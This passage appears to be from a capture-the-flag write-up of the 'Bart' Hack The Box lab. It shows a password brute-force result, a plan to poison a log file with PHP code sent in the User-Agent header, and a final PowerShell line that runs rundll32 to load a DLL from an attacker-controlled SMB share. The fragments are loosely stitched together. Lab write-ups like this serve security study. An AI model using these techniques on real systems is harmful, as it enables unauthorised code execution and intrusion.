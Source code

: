 ```bash
18:19:38 patator    INFO - Hits/Done/Skip/Fail/Size: 1/10001/0/0/10001, Avg: 23 r/s, Time: 0h 7m 13s
```

So his password is Password1 and we can login, once inside we see a short talk between the developer and a pissed off head of IT in some kind of internal chat room.


![](pics/chatroom.JPG)

Checking out the source here it's pretty barren except for this log_link script that is sending a GET to log.php including log.txt with a filename= parameter. If we try to issue this request and include a different file, we get a file put contents php error to popup. As we noticed in log.txt, it seems to be one entry with harvey's name and his user agent. We might be able to change our user agent to some php code, then hope it gets placed into the log.txt file as our new user agent and it will be a classic log poison situation. 
```html
<!-- <div id="title"><h1>[DEV] Internal Chat</h1></div>
<div id="title"><h1>Internal use only</h1></div> -->
<div id="refresh_link"><a href=".">Refresh</a></div>
			<div id="log_link">
				<script>
					function saveChat() {
						// create a serialized object and send to log_chat.php. Once done hte XHR request, alert "Done"
					var xhr = new XMLHttpRequest();
					xhr.onreadystatechange = function() {
    					if (xhr.readyState == XMLHttpRequest.DONE) {
        					alert(xhr.responseText);
    					}
					}
					xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
					xhr.send(null);
					alert("Done");
					}
				</script>
```

[localhost]: PS C:\Users\Administrator\Documents> whoami
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"